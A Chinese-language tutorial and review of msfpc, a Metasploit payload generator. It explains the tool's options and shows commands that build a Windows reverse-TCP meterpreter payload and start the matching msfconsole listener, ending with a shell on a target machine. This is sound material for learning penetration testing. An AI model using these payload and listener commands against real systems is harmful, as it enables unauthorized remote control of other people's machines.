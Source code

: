 # msfpc
## 简介
MSFvenom Payload Creator（msfpc）是一个基于MSFvenom的Payload生成器，旨在简化Payload的创建过程，使用户尽可能简单的创建payload
## 参数详解
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
+ < type>：
  + APK
  + ASP
  + ASPX
  + Bash [.sh]
  + Java [.jsp]
  + Linux [.elf]
  + OSX [.macho]
  + Perl [.pl]
  + PHP
  + Powershell [.ps1]
  + Python [.py]
  + Tomcat [.war]
  + Windows [.exe // .dll]
+ <DOMAIN/IP>：默认IP菜单，除了IP地址，还允许输入eth0，lo，wan
+ < PORT>：默认443
+ <CMD/MSF>：默认MSF    
  + CMD：用cmd进行交互
  + MSF：用msf进行交互，功能较强
+ <BIND/REVERSE>：默认REVERSE
  + BIND：正向连接
  + REVESE：反向连接
+ <STAGED/STAGELESS>：默认STAGED
  + STAGED：将payload分块，使其更小，依赖Metasploit
  + STAGELESS：完整独立的payload，比STAGED稳定
+ <TCP/HTTP/HTTPS/FIND_PORT>：默认TCP
  + TCP：tcp连接，最兼容types，容易被ids检测
  + HTTP：http连接，限制协议端口访问，如80
  + HTTPS：https连接，限制协议端口访问，如443
  + FIND_PORT：尝试在所有端口寻找出路
+ <BATCH/LOOP>
  + BATCH：生成尽可能多的组合
  + LOOP：生成其中一种
+ <VERBOSE>：显示更多信息：type，size，md5和sha1
## 简单使用实例
1. 使用msfpc生成payload
```
msfpc windows eth0
```
![Alt text](./1511872626842.png)
2. 使用生成的rc监听(-q 跳过启动画面 -r 加载resources脚本)
```
msfconsole -q -r '/root/msf/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```
![Alt text](./1511872454543.png)
  
3. 靶机执行exe后
![Alt text](./1511872477273.png)
<br/> 轻松写意获得靶机的shell
## 一点小插曲和个人评价
看完所有参数后，最好奇的是find_port参数，执行后却发现
![Alt text](./1511873549693.png)
Metaspolit不支持！！！
个人觉得msfpc对新手挺友好的，虽然缺少了msfvenom的编码功能，命令行参数也差不多，但胜在能自动生成rc文件，在侦听时非常方便！

